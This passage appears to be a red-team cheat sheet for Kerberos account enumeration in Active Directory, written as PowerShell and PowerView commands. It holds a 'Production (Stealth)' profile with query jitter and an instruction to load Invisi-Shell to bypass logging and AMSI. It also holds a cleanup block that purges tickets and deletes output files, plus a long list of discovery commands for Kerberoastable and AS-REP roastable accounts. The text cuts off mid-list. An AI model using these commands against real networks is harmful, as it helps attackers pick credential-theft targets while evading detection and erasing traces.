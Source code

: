 ## 🏭 **LAB vs PRODUCTION: EXECUTION PROFILES**

### 🔬 Lab
```powershell
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname | Export-Csv spn_users_sample.csv -NoTypeInformation
Get-DomainUser -PreauthNotRequired | Select -Expand samaccountname | Out-File asrep_users.txt
```

### 🏢 Production (Stealth)
```powershell
Import-Module ActiveDirectory
Get-ADUser -LDAPFilter "(servicePrincipalName=*)" -SearchBase "OU=IT,DC=corp,DC=local" -Properties ServicePrincipalName -ResultSetSize 25 |
  Select SamAccountName,ServicePrincipalName | Export-Csv spn_scoped.csv -NoTypeInformation
Start-Sleep -Seconds (Get-Random -Minimum 3 -Maximum 6)
```

## 🛡️ **DETECTION, OPSEC & CLEANUP**

### 🚨 Detection Indicators
- Event 4768/4769 spikes, repeated SPN queries, AS‑REP requests volume

### 🔒 OPSEC Best Practices
> **🔒 STEALTH REQUIREMENT**: **Invisi-Shell** must be loaded before any Kerberos enumeration in production environments to bypass logging and AMSI detection.
- Prefer MS‑signed cmdlets, scope queries by OU, limit properties/result sizes, add jitter
- Avoid broad `setspn -Q */*` in production

### 🧹 Cleanup
```powershell
Rubeus purge 2>$null; klist purge 2>$null
Remove-Item spn_*.csv, asrep_*.txt -ErrorAction SilentlyContinue
```

---

## 🎯 **COMPREHENSIVE BASIC COMMANDS (20+ PowerView/SharpView)**

```powershell
# Domain context and policy
Get-Domain
Get-DomainPolicy

# SPN discovery (variations)
Get-DomainUser -SPN
Get-DomainUser -LDAPFilter "(servicePrincipalName=*)" -Properties samaccountname,serviceprincipalname
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -like "*http*"}
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -like "*mssql*"}
Get-DomainUser -SPN | Select -First 25

# AS-REP roastable discovery
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH

# Computers and delegation hints
Get-DomainComputer -TrustedForDelegation
Get-DomainComputer -TrustedToAuth

# Enc types
```